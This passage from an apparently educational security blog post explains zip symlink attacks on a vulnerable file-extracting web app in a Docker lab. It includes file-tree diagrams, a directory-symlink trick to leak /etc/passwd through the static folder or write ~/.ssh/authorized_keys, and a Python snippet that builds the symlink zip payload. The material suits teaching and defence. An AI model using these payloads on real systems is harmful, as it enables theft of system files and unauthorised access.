 ```text
app/
└── uploads/
    └── passwd.txt     -> /etc/passwd
```

If we can read files in `/app/uploads/`, then we can read `passwd.txt` and by extension, `/etc/passwd`.[^really-by-extension] Then GG! We can use this method to read any file on the system (subject to certain constraints to be discussed later).

[^really-by-extension]: Okay, I skipped some steps here, but didn't want to overcomplicate things. The long answer is: reading a symlink also depends on permissions of the {% abbr "source file", "the file linked by the symlink" %} and the {% abbr "source directory", "the directory containing the source file" %}. ***If*** we can read files in our upload directory **and** if we have sufficient permissions, then we can (potentially) have arbitrary read.

But... what if we *don't* have read access to `/app/uploads/`?

This is the case in our Docker playground. `/app/uploads/` is walled off... But! We can access files in `/app/static/`. This is the folder where static files (.html, .css, .js) are served from.

We would need to write our symlink to *that* folder first before reading it. One way is to use Zip Slip. But what if the application blocks requests with `../`? Is there an alternative way?


#### Arbitrary Write with Dir Symlinks

This is where things get fun. Let's slightly modify our zip by inserting a little indirection:

```text
evil-link-dir-file.zip
└── dirlink/           -> /app/static/
    └── passwd.txt     -> /etc/passwd
```

Now our zip contains a symlink directory! When unzipped, the vulnerable application will first create a symlink to `/app/static/`. Then inside that symlink, it creates *another* symlink, this time to `/etc/passwd`.

Let's see what our filesystem now looks like.

```text
app/
└── uploads/
    └── dirlink        -> /app/static/
└── static/
    └── passwd.txt     -> /etc/passwd
```

Now browse to `https://localhost:8080/passwd.txt` to leak the contents of `/etc/passwd`.

This method can also be used to write to `~/.ssh/authorized_keys` and apply the same attack technique we tried in the Zip Slip section.


#### DIY: Build your own Zip Symlink Payload!

{% details "With Python", "open" %}
Like before, we can use Python to generate zip symlink payloads. We'll need some extra massaging with `ZipInfo` though.

```python
# evil-link-file.zip
# └── passwd.txt         -> /etc/passwd
with zipfile.ZipFile("evil-link-file.zip", "w", compression=zipfile.ZIP_DEFLATED) as zip:
  info = zipfile.ZipInfo("passwd.txt")
  info.create_system = 0 # Linux => 0. Windows => 3.
  info.external_attr = (stat.S_IFLNK | 0o777) << 16 # File attributes.
  zip.writestr(info, "/etc/passwd")
```


[^root]: Assuming we run as `root`, or as long as permissions don't get in the way.
[^ref-linuxlinkperm]: Reference: [SO: Minimum Permissions Required to Create a Link to a File](https://stackoverflow.com/questions/40667014/linux-what-are-the-minimum-permissions-required-to-create-a-link-to-a-file)
[^deflate]: This is the same compression algorithm used in gzip (commonly used for transferring files across the web) and PNGs.
[^fifield]: The technical article by Fifield is here: *https://www.bamsoftware.com/hacks/zipbomb/*. But it may be blocked on your browser.